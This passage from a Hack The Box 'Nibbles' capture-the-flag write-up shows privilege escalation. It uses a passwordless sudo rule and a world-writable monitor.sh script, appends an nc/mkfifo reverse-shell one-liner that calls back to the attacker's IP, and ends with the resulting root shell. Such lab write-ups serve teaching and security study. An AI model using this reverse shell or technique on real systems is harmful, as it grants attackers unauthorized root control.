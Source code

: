     User nibbler may run the following commands on Nibbles:
        (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
    

So with no password, we can run .`monitor.sh`

`monitor.sh` is a publicly available script:

```

    nibbler@Nibbles:/home/nibbler/personal/stuff$ head monitor.sh
                      ####################################################################################################
                      #                                        Tecmint_monitor.sh                                        #
                      # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                      # If any bug, report us in the link below                                                          #
                      # Free to use/edit/distribute the code below by                                                    #
                      # giving proper credit to Tecmint.com and Author                                                   #
                      #                                                                                                  #
                      ####################################################################################################
    #! /bin/bash
    # unset any variable which system may be using
```

    

But it doesn’t really matter, since the script is world-writable:

   
```
 nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
    total 4
    -rwxrwxrwx 1 nibbler nibbler 80 Jun 24 07:27 monitor.sh
```

    

In fact, if you are on the free, you’re very likely to find this file completely overwritten with other people’s privesc.

Rather than bluntly overwriting the script, we’ll append our shell to the end:

  
```
  nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
    < /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
    nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
    

    root@kali:/media/sf_CTFs/hackthebox/nibbles-10.10.10.75# nc -lnvp 8083
    listening on [any] 8083 ...
    connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 52184
    # id
    uid=0(root) gid=0(root) groups=0(root)
```
